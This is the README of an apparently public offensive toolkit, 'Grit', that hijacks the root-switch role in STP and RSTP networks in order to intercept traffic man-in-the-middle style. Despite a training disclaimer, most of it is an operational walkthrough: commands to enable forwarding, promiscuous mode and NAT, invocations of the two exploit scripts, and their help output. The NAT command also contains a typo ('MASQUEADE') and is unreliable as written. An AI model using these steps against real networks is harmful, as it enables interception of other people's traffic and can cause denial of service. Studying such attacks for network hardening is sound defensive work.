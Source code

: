 # Grit
STP &amp; RSTP Root Hijacking Exploits

**The author has nothing to do with those who will use these tools for personal purposes to destroy other people's computer networks. The tools are presented for training purposes to help engineers improve the security of their network.**

**ᛝ**

## 1. Mechanics of the attack.

The basic principle of the tools is to generate an STP/RSTP frame with the lowest priority value. Which in turn allows you to intercept the role of the root switch.
After that, an opportunity will open for a MITM attack, you will partially intercept traffic, not all of it. Keep that in mind.
But don't forget that the BPDU GUARD system can stop you.

Before performing the injection, you should first analyze what type of STP protocol is used. And based on this, to start further...
By the way, nothing prevents an attack against the classic STP using an exploit for RSTP.
If a mitm attack fails, feel free to experiment and try two versions of exploits at once (STP exploit for RSTP, RSTP exploit for STP)
Also, after injection, some switches will generate TCN messages (Topology Change Notification)

If there are any problems, write to "Issues"

## 2. Limitations

Depending on the power of your hardware. some host traffic will go through you, you have to withstand this load, otherwise DoS will occur.

## 3. Attack
First you need to install the dependencies.

```
sudo pip3 install -r requirements.txt
```

### 3.1 Enable Forwarding

```
sudo sysctl -w net.ipv4.ip_forward=1
```
### 3.2 Enable Conntrack (nf_conntrack_helper)
```
sudo modprobe nf_conntrack
sudo echo "1" > /proc/sys/net/netfilter/nf_conntrack_helper
```
### 3.3 Promisc mode on interface
```
sudo ifconfig ethX promisc
```
### 3.4 NAT
```
sudo iptables -t nat -A POSTROUTING -o ethX -j MASQUEADE
```

### 3.5 Start of injection.
#### 3.5.1 STP
```
sudo python3 stpexploit.py --interface ethX --mac XX:XX:XX:XX:XX:XX 
```
#### 3.5.2 RSTP
```
sudo python3 rstpexploit.py --interface ethX --mac XX:XX:XX:XX:XX:XX
```
After executing the injection, you will intercept the role of the root switch. you can track generated STP ads in Wireshark or tcpdump :)



## 4. Help

```
python3 stpexploit.py  --help     

  ▄████  ██▀███   ██▓▄▄▄█████▓
 ██▒ ▀█▒▓██ ▒ ██▒▓██▒▓  ██▒ ▓▒
▒██░▄▄▄░▓██ ░▄█ ▒▒██▒▒ ▓██░ ▒░
░▓█  ██▓▒██▀▀█▄  ░██░░ ▓██▓ ░ 
░▒▓███▀▒░██▓ ▒██▒░██░  ▒██▒ ░ 
 ░▒   ▒ ░ ▒▓ ░▒▓░░▓    ▒ ░░   
  ░   ░   ░▒ ░ ▒░ ▒ ░    ░    
░ ░   ░   ░░   ░  ▒ ░  ░      
      ░    ░      ░          

STP Root Hijacking Exploit
For the classic version of Spanning Tree Protocol

Author: Magama Bazarov, @in9uz, <in9uz@protonmail.com>

usage: stpexploit.py [-h] --interface INTERFACE --mac EVILMAC

options:
  -h, --help            show this help message and exit
  --interface INTERFACE
                        Choose the interface to attack
  --mac EVILMAC         Specify your MAC
```

```
python3 rstpexploit.py --help                                                                                                                          2 ↵

  ▄████  ██▀███   ██▓▄▄▄█████▓
 ██▒ ▀█▒▓██ ▒ ██▒▓██▒▓  ██▒ ▓▒
▒██░▄▄▄░▓██ ░▄█ ▒▒██▒▒ ▓██░ ▒░
░▓█  ██▓▒██▀▀█▄  ░██░░ ▓██▓ ░ 
░▒▓███▀▒░██▓ ▒██▒░██░  ▒██▒ ░ 
 ░▒   ▒ ░ ▒▓ ░▒▓░░▓    ▒ ░░   
  ░   ░   ░▒ ░ ▒░ ▒ ░    ░    
░ ░   ░   ░░   ░  ▒ ░  ░      
      ░    ░      ░          

RSTP Root Hijacking Exploit
For Rapid Spanning Tree Protocol version

Author: Magama Bazarov, @in9uz, <in9uz@protonmail.com>

usage: rstpexploit.py [-h] --interface INTERFACE --mac EVILMAC

options:
  -h, --help            show this help message and exit
  --interface INTERFACE
  --mac EVILMAC
```
